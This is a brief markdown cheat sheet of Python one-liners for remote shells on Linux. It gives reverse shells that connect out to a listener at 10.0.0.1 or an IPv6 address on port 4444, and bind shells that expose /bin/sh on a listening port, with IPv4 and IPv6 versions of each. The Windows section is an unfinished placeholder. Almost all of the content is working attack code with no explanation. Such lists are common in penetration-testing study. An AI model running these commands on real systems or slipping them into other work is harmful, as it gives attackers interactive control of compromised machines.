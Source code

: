 # Python reverse shell and bind shell Cheat Sheet
## Linux
### Reverse shell
#### Ipv4
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
#### Ipv6
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4444,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
### Bind shell
#### Ipv4
```
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
#### Ipv6
```
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.bind(("::1",4444,0,2));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```
## Windows
#### Updating ...
